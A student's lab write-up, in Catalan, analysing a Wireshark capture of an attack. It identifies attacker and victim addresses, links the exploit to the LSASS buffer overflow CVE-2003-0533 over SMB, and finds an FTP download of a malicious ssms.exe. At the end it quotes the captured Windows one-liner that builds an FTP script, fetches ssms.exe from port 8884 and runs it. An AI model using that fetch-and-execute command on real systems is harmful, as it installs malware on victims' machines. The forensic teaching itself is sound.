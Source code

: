 PRÀCTICA XARXES I
==================

En aquesta pràctica analitzarem el fitxer 1.pcap que trobaràs al Moodle, es correspon a la captura de paquets durant un atac informàtic en xarxa.

Per aquesta tasca usarem el programari open-source Wireshark que disposa d’eines que ens permetran filtrar el tràfic de la xarxa segons la informació que cerquem en cada moment.

*Nota: Aquesta pràctica no s’ha d’entregar, es revisarà durant les hores de classe.*

---

1. **Quina és l’adreça IP de l’atacant i de l’atacat? I les direccions MAC? A partir de les IPs obtingudes geolocalitza l’atacant i l’atacat.** Pots utilitzar el següent recurs online: https://www.geolocation.com/

Per assegurar-me de qui és realment l'atacant:

Statistics > Flow Graph

![""](images/image09.png "")

**Atacant:**

IP: 98.114.205.102

MAC: 00:08:e2:3b:56:01

Geolocalització:

![""](images/image01.png "")


**Atacat:**

IP: 192.150.11.111

MAC: 00:30:48:62:4e:4a

Geolocalització:

![""](images/image02.png "")

2. **Quines sessions TCP hi ha obertes entre les dos IPs? Indica’n els ports usats i el nombre de paquets enviats.**

Hi ha obertes les següents 5 sessions TCP:

![""](images/image03.png "")

Un total de 348 paquets.

3. **Quant temps dura l’atac?**

L'atac dura 16.219218 segons, com es pot veure a l'últim paquet:

![""](images/image04.png "")

4. Quin és el sistema operatiu del sistema atacat? Pots consultar la relació entre la versió i el
nom comercial aquí: https://www.gaijin.at/en/infos/windows-version-numbers

```
smb.native_os && ip.src == 192.150.11.111
```

![""](images/image05.png "")


5. **Aquest atac ha explotat una vulnerabilitat de l’Active Directory. Cerca paquets de
protocol DSSETUP per obtenir-ne informació i aconsegueix el codi CVE de la
vulnerabilitat i les seves característiques.** El CVE és una llista d'informació registrada sobre vulnerabilitats de seguretat conegudes.

**Quin protocol s’usà per explotar la vulnerabilitat esmentada?**

![""](images/image06.png "")

A partir de la informació "DsRoleUpgradeDownlevelServer" s'ha pogut trobar que s'intentava explotar la vulnerabilitat [CVE-2003-0533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-0533).

```
Stack-based buffer overflow in certain Active Directory service functions in LSASRV.DLL of the Local Security Authority Subsystem Service (LSASS) in Microsoft Windows NT 4.0 SP6a, 2000 SP2 through SP4, XP SP1, Server 2003, NetMeeting, Windows 98, and Windows ME, allows remote attackers to execute arbitrary code via a packet that causes the DsRolerUpgradeDownlevelServer function to create long debug entries for the DCPROMO.LOG log file, as exploited by the Sasser worm.
```

S'usa el protocol SMB (Server Message Block).

**6. Quin port escoltava el servidor de l’atacant? Quin protocol s’usa en l’atac per descarregar un fitxer maliciós addicional al sistema atacat? Quin és aquest fitxer? En reconeixes el nom?** Analitza els fluxos TCP.

Fluxos TCP:

Statics > IPv4 Statics > Destinations and Ports

![""](images/image07.png "")


Pel paquet nº 46 podem veure el fitxer maliciós *ssms.exe* (SQL Server Management Studio).

L'atacant fa servir el protocol FTP per descarregar aquest fitxer.

El servidor de l'atacant està escoltant pel port 8884.

```
echo open 0.0.0.0 8884 > o&echo user 1 1 >> o &echo get ssms.exe >> o &echo quit >> o &ftp -n -s:o &del /F /Q o &ssms.exe
ssms.exe
```

![""](images/image08.png "")